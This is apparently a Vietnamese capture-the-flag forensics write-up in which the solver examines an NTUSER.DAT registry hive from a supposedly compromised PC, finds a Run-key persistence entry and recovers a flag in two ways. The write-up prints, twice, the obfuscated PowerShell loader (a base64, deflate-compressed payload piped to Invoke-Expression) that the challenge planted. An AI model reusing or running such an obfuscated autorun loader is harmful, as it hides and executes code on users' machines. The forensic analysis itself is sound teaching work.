






## Đề 
> Hòa thấy hiện tượng lạ mỗi khi anh ta khởi động máy tính. Anh ta nghĩ rằng việc tải các video không lành mạnh gần đây đã khiến máy tính của anh ta bị hack.
## Link downloads
> https://drive.google.com/file/d/1pShye_YtnUuIObPdnq9PeiIge0Oelsix/view?usp=drive_link (pass: cookiehanhoan)
## Giải 
### Cách 1
- Sau khi tải về em được 1 file tên `NTUSER.DAT`, kiểm tra loại file em thu được kết quả
```text
NTUSER.DAT: MS Windows registry file, NT/2000 or above
```
- Em sẽ mở file registry với công cụ `registry explorer` của windows
- 
- Vì tiêu đề là máy tính của HOà bị hack vì tải phần mềm crack nên ắt hẳn nó phải liên quan đến process cmd.exe và powershell.exe. Em lần lượt search 2 chuỗi này
- Tại powershell.exe em thấy được 1 đoạn shell như sau : 
- 
- 
> "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" "(neW-obJEct io.COMprEssIon.dEFlATesTReAm( [sySTem.IO.memorYSTREam] [coNVeRT]::FRoMBAse64stRInG( 'TVFva4JAGP8qh7hxx/IwzbaSBZtsKwiLGexFhJg+pMs09AmL6rvP03S9uoe739/nZD+OIEHySmwolNn6F3wkzilH2HEbkDupvwXM+cKaWxWSSt2Bxrv9F64ZOteepU5vYOjMlHPMwNuVQnItyb8AneqOMnO5PiEsVytZnHkJUjnvG4ZuXB7O6tUswigGSuVI0Gsh/g1eQGt8h6gdUo98CskGQ8aIkgBR2dmUAw+9kkfvCiiL0x5sbwdNlQUckb851mTykfhpECUbdstXjo2LMIlEE0iCtedvhWgER1I7aKPHLrmQ2QGVmkbuoFoVvOE9Eckaj8+26vbcTeomqptjL3OLUM/0q1Q+030RMD73MBTYEZFuSmUMYbpEERduSVfDYZW8SvwuktJ/33bx/CeLEGirU7Zp52ZpLfYzPuQhZVez+SsrTnOg7A8='), [SYSTEM.iO.ComPReSSion.CoMPrEsSIonmODe]::DeCOmpresS)|FOREAcH-object{ neW-obJEct io.streAMrEadeR( $_,[sysTem.TExt.EnCoDING]::asCIi )}).reaDToEnD()|inVOKe-exprEsSIon"
- Ở đây nó sẽ mã hoá dòng trong dấu nháy, khi tiến hành thực thi nó sẽ giải mã ra 
- Bây giờ em sẽ gán đoạn thực thi đó cho 1 biến a
- 
- Sau đó in ra 
- 
> Flag : `CHH{N0_4_go_n0_st4r_wh3r3}`
### Cách 2
- Vì trong thực tế không thể tìm kiếm bằng cách tìm cmd.exe hay powershell.exe nên em sẽ làm 1 cách khác 
- Tương tự như cách 1, vì đây là file registry nên em mở nó bằng `registry explorer` 
- Dựa theo kiến thức đã học ở lab `https://tryhackme.com/room/windowsforensics1` em sẽ tìm kiếm theo phương pháp thủ công 
- Vì đề bài có gợi ý là máy tính của Hoà bị hack nên đầu tiên em phải xác định các file được thực thi trước tại `\Software\Microsoft\Windows\Currentversion\count` 
- 
- Ở đây có cmd.exe và powershell.exe đang chạy 
- Lướt xuống 1 tí tại \run em thấy powershell đang thực hiện 1 lệnh
``` 
"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" "(neW-obJEct io.COMprEssIon.dEFlATesTReAm( [sySTem.IO.memorYSTREam] [coNVeRT]::FRoMBAse64stRInG( 'TVFva4JAGP8qh7hxx/IwzbaSBZtsKwiLGexFhJg+pMs09AmL6rvP03S9uoe739/nZD+OIEHySmwolNn6F3wkzilH2HEbkDupvwXM+cKaWxWSSt2Bxrv9F64ZOteepU5vYOjMlHPMwNuVQnItyb8AneqOMnO5PiEsVytZnHkJUjnvG4ZuXB7O6tUswigGSuVI0Gsh/g1eQGt8h6gdUo98CskGQ8aIkgBR2dmUAw+9kkfvCiiL0x5sbwdNlQUckb851mTykfhpECUbdstXjo2LMIlEE0iCtedvhWgER1I7aKPHLrmQ2QGVmkbuoFoVvOE9Eckaj8+26vbcTeomqptjL3OLUM/0q1Q+030RMD73MBTYEZFuSmUMYbpEERduSVfDYZW8SvwuktJ/33bx/CeLEGirU7Zp52ZpLfYzPuQhZVez+SsrTnOg7A8='), [SYSTEM.iO.ComPReSSion.CoMPrEsSIonmODe]::DeCOmpresS)|FOREAcH-object{ neW-obJEct io.streAMrEadeR( $_,[sysTem.TExt.EnCoDING]::asCIi )}).reaDToEnD()|inVOKe-exprEsSIon"
```
- Lệnh này sẽ tiến hành mã hoá các kí tự trong dấu nháy, sau đó tiến hành giải mã bằng lệnh thực thi `inVOKe-exprEsSIon`
- Em sẽ xoá lệnh thực thi và gán dữ liệu cho 1 biến (mục đích để in ra dữ liệu lúc sau)
- 
- 
> Flag : `CHH{N0_4_go_n0_st4r_wh3r3}`